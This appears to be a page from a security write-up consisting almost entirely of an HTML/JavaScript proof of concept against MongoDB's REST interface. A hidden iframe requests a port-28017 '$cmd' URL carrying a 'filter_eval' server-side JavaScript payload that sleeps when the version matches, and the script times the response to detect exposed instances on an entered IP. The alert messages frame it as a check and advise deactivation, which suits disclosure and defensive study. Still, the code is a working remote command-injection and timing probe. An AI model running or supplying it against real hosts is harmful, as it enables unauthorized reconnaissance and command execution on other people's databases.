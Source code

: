 * ![image-20210223163027830](images/image-20210223163027830.png)

* ```
  <html>
  <body>
  <div>
  To check IP <input value = "127.0.0.1" id = "ip"> for version
  <select id = "version">
  <option value = "2">2</option>
  <option value = "3">3</option>
  </select>
  click on <button onclick = "check()">check</button>
  </div>
  <script>
  function check() {
  target_ip = document.getElementById('ip').value
  console.log(target_ip);
  version = document.getElementById('version').value
  first_date = Date.now()
  attack_iframe = document.createElement('iframe');
  document.body.appendChild(attack_iframe);
  attack_iframe.style = "visibility:hidden;";
  attack_iframe.onload = function(){
  second_date = Date.now()
  time = second_date-first_date;
  console.log(time)
  if(time > 2000) {
  alert('Possible match.\nThere might be mongodb '+version+'.x on IP '+target_ip+'\nPlease consider to deactivate it as database commands can be issued even if it\'s just a testing environment.') }
  else {
  alert('There is either no mongodb running on '+target_ip+',\nit wasn\'t started with --rest,\na different port is used\nor another problem occurred') } }
  url = 'http://'+target_ip+':28017/admin/$cmd/?filter_eval=function(){if(db.version().charAt(0)=='+version+'){sleep(2000)}}&limit=1';
  console.log(url);
  attack_iframe.src=url; }
  </script>
  </body>
  </html>
  ```

  





  ```